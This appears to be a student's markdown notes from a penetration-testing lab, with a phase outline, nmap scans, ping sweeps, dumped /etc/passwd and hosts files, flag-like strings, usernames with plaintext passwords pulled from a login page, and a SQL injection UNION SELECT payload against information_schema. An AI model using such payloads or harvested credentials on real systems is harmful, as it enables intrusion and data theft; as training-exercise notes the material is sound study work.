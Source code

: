 ## 1: Recon/Ping Sweep/Scan Scripts/Validate Ports

____________________________________________________________________________________________________________________
## 2: Check HTTP site/SQL methods/Post and Get/Authentication bypass

____________________________________________________________________________________________________________________
## 3: Utilize Golden Statement/Which is Vulnerable/Number of Fields/Modify Statement

____________________________________________________________________________________________________________________
## 4: Processes/tasks/crontab/auditpol/services

____________________________________________________________________________________________________________________
## 5: Binary/strings/Reverse Engineering/Ghidra/Source Code

____________________________________________________________________________________________________________________
## 6: Find Command/Sudo -l/GTFObins

____________________________________________________________________________________________________________________
### Username: MARO-007-M
### IP: 10.50.25.244
____________________________________________________________________________________________________________________
    Nmap scan report for 10.50.25.244 ----> MINISTRY-DEFENSE
    Host is up (0.0069s latency).
    Not shown: 998 filtered ports
    PORT   STATE SERVICE
    22/tcp open  ssh
    80/tcp open  http
    | http-enum: 
    |   /robots.txt: Robots file
    |   /images/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
    |_  /share/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
    
    Nmap done: 1 IP address (1 host up) scanned in 5.31 seconds
___________________________________________________________________________________________________________________
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:usMiHwCWTW75U4QMb5O0:10/bin/sh
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
    systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
    syslog:x:102:106::/home/syslog:/usr/sbin/nologin
    messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
    _apt:x:104:65534::/nonexistent:/usr/sbin/nologin
    lxd:x:105:65534::/var/lib/lxd/:/bin/false
    uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
    dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
    landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
    sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
    pollinate:x:110:1::/var/cache/pollinate:/bin/false
    ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
    openupthedoor:x:1001:1001::/home/openupthedoor:/bin/bash
___________________________________________________________________________________________________________________
    ::1 ip6-localhost ip6-loopback
    fe00::0 ip6-localnet
    ff00::0 ip6-mcastprefix
    ff02::1 ip6-allnodes
    ff02::2 ip6-allrouters
    ff02::3 ip6-allhosts
___________________________________________________________________________________________________________________
    192.168.28.0/27
    192.168.28.160/27
    FFcy67MnQaE33rt8JNm1
___________________________________________________________________________________________________________________
    64 bytes from 192.168.28.30: icmp_seq=1 ttl=64 time=0.258 ms
    64 bytes from 192.168.28.177: icmp_seq=1 ttl=63 time=1.36 ms
    64 bytes from 192.168.28.182: icmp_seq=1 ttl=63 time=1.64 ms
    64 bytes from 192.168.28.190: icmp_seq=1 ttl=64 time=0.063 ms
___________________________________________________________________________________________________________________
    Nmap scan report for 192.168.28.177 -----> DEFENSE_NIX1
    Host is up (0.00046s latency).
    Not shown: 999 closed ports
    PORT   STATE SERVICE
    22/tcp open  ssh
    21254/tcp open  unknown
    
    Nmap scan report for 192.168.28.182 -------> 
    Host is up (0.00045s latency).
    Not shown: 998 closed ports
    PORT   STATE SERVICE
    22/tcp open  ssh
    80/tcp open  http
    | http-enum: 
    |   /login/: Login page
    |   /robots.txt: Robots file
    |_  /images/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
    
    Nmap done: 2 IP addresses (2 hosts up) scanned in 1.43 seconds
___________________________________________________________________________________________________________________
    Array
        [0] => Msmith
        [name] => Msmith
        [1] => Squanchy
        [password] => Squanchy
    1Array
        [0] => Fpalic
        [name] => Fpalic
        [1] => Birdperson
        [password] => Birdperson
    1Array
        [0] => Kmichae
        [name] => Kmichae
        [1] => MrMeeseeks
        [password] => MrMeeseeks
___________________________________________________________________________________________________________________
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
    systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
    syslog:x:102:106::/home/syslog:/usr/sbin/nologin
    messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
    _apt:x:104:65534::/nonexistent:/usr/sbin/nologin
    lxd:x:105:65534::/var/lib/lxd/:/bin/false
    uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
    dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
    landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
    sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
    pollinate:x:110:1::/var/cache/pollinate:/bin/false
    ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
    mysql:x:111:115:MySQL Server,,,:/nonexistent:/bin/false
___________________________________________________________________________________________________________________
    ::1 ip6-localhost ip6-loopback
    fe00::0 ip6-localnet
    ff00::0 ip6-mcastprefix
    ff02::1 ip6-allnodes
    ff02::2 ip6-allrouters
    ff02::3 ip6-allhosts
    192.168.28.177 Defense_Nix1
    dv4WEHoTfU94JTHv57WV
___________________________________________________________________________________________________________________
    Locations=4 UNION SELECT 1,table_schema,table_name,column_name FROM information_schema.columns

___________________________________________________________________________________________________________________

___________________________________________________________________________________________________________________

___________________________________________________________________________________________________________________

___________________________________________________________________________________________________________________

___________________________________________________________________________________________________________________

___________________________________________________________________________________________________________________

___________________________________________________________________________________________________________________

___________________________________________________________________________________________________________________

___________________________________________________________________________________________________________________

___________________________________________________________________________________________________________________

___________________________________________________________________________________________________________________

___________________________________________________________________________________________________________________

___________________________________________________________________________________________________________________

___________________________________________________________________________________________________________________

___________________________________________________________________________________________________________________

___________________________________________________________________________________________________________________

___________________________________________________________________________________________________________________

